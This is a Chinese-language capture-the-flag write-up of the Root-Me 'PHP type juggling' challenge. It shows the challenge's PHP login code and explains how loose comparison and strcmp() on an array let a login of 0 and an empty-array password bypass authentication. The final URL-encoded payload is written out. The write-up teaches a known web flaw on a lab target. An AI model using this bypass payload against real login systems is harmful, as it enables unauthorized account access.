

Root-Me [PHP type juggling](https://www.root-me.org/en/Challenges/Web-Server/PHP-type-juggling)
===

二個 Input 分別為 `Login`、`Password`。

## 解題關鍵
1. PHP Code Review
2. Loose Comparison
3. Burp Suite

## 提示訊息
```
Get an access.
```

## 解題方法
這題直接看 `Source Code`，如下。

```php
<?php

// $FLAG, $USER and $PASSWORD_SHA256 in secret file
require("secret.php");

// show my source code
if(isset($_GET['source'])){
    show_source(__FILE__);
    die();
}

$return['status'] = 'Authentication failed!';
if (isset($_POST["auth"]))  { 
    // retrieve JSON data
    $auth = @json_decode($_POST['auth'], true);
    
    // check login and password (sha256)
    if($auth['data']['login'] == $USER && !strcmp($auth['data']['password'], $PASSWORD_SHA256)){
        $return['status'] = "Access granted! The validation password is: $FLAG";
    }
}
print json_encode($return);
```

直接看重要的部分 `$_POST["auth"]` 是屬於使用者輸入，這時候就好奇了一下，原本不是兩個 Input 嗎? 怎麼只變成一個，在看一下前端，看樣子是有經過前處理，將 `password` 的參數值做 `sha256`。  

  

接著看到 `auth['data']['login'] == $USER`，注意這邊是個弱型別的判斷，隨後 `strcmp()` 函數特性上，只要引發錯誤就會 `return False`，可以餵陣列給他，並且有個 `!` 會幫忙轉成 `True`。  

基本上弱型別送個 `0` 就可以繞過了，至於 `strcmp()` 由於有做 `sha256` 的關係，就算送出陣列也會被當成字串 `Hash`，所以需要借助 `Brup Suite` 工具。  

  

由於送出請求之後，攔截到的 DATA 會 `URLencode`，所以需要解碼後才看得懂，如下。  

```
auth={"data":{"login":"0","password":"e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855"}}
```

這部分有兩個地方需要變更，第一個是 `login` 的值，可以發現送出去的是 `"0"`，包覆在兩個雙引號中間，所以是字串型態，變更為 `0`，另一個部分是 `password`，為了讓 `strcmp()` 發生錯誤，所以要遞送一個空陣列 `[]`，編輯完成後，記得重新 `URLencode`，完整 Payload 如下，解決該題。

```
auth=%7B%22data%22%3A%7B%22login%22%3A0%2C%22password%22%3A%5B%5D%7D%7D
```

  

## Reference
https://www.cnblogs.com/Mrsm1th/p/6745532.html

## 授權聲明
[](https://mks.tw/)
[](https://www.gnu.org/licenses/gpl-3.0)